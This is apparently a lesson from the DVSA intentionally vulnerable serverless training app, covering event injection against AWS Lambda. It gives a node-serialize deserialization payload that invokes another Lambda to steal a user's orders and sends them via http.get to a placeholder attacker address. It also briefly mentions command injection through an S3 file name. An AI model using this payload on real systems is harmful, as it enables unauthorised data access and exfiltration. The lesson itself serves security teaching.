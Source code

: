 # LESSON #1: Event Injection

## (1.1) Code Injection via API Gateway
The application sends all requests to an API GW (*`https://{string}.execute-api.{region}.amazonaws.com/{stage}/order`*). 
All requests end up being handled by a Lambda function, which invokes another Lambda function based on the incoming request.

**This function is vulnerable to Code Injection**. The function uses an insecure de-serialization for the data in the request.

Using the following payload, it is possible to inject code that will be executed by the function.

`$$ND_FUNC$$_function (){}()`

For example, to get the orders of another user, we can send the payload:
```
{"action": "_$$ND_FUNC$$_function(){var aws=require(\"aws-sdk\");var lambda=new aws.Lambda();var p = {FunctionName: \"DVSA-ORDER-ORDERS\", InvocationType: \"RequestResponse\", Payload: JSON.stringify({\"user\": \"12312312-1233-1233-1233-123123123123\"})};lambda.invoke(p,function(e,d){ var h=require(\"http\");h.get(\"<ATTACKER_REMOTE_ADDRESS>\"+JSON.stringify(d));}); }()", "cart-id":""}
```

Where the *`12312312-1233-1233-1233-123123123123`* is the user-id of the user we want to steal the data from, and *`<ATTACKER_REMOTE_ADDRESS>`* is any address that we can send the data to. E.g. [ngrok](https://ngrok.com/).

As a result, we now have the user orders:

![alt ngrok](https://i.imgur.com/CAcywDz.png)

The above example is the least of problems you can cause with such an attack. Notice that there are also admin functions :)


- - - 
## (1.2) Command Injection via S3 bucket
Event injections are not all about API calls and in serverless applications the source of the injection could be an: email (file, subject, etc.), an MQTT pub/sub, or any other cloud-resource event.

In this case, the DVSA is vulnerable to Command Injection via file name. The file is processed when uploaded to an S3 bucket. Since the bucket is configured insecurely, we can exploit it. 

To learn about this exploit, visit [Lesson #4: Insecure Cloud Configuration](../LESSONS/LESSON_04.md).

- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)

